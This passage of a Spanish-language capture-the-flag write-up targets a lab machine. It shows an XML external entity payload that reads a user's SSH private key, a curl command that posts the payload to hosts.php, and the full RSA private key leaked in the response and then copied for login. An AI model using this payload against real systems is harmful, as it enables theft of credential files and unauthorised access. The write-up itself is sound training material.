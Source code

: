 Aquí podemos ver los usuarios del sistema *florian* y *cliff*. Pensando un poco, tenemos usuarios del sistema, el puerto 22 abierto y podemos ver archivos de sistema; con eso vamos a tratar de obtener el archivo `id_rsa` de los usuarios para tratar de conectarnos a la máquina víctima por SSH sin proporcionar contraseña.

#### test.txt
```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo
    [<!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>
  <details>
      <subnet_mask>&xxe;</subnet_mask>
      <test></test>
  </details>
```

#### Ejecución
```bash
❯ curl -d @test.txt http://10.10.10.78/hosts.php

There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```

Nos copiamos la `id_rsa` a un archivo con mismo nombre y le damos permisos 600:

```bash
❯ vi id_rsa
❯ cat id_rsa
───────┬──────────────────────────────────────────────────────────────
       │ File: id_rsa
───────┼──────────────────────────────────────────────────────────────
   1   │ -----BEGIN RSA PRIVATE KEY-----
   2   │ MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
   3   │ +YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
   4   │ lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
   5   │ 1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
   6   │ Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
   7   │ d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
   8   │ AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
```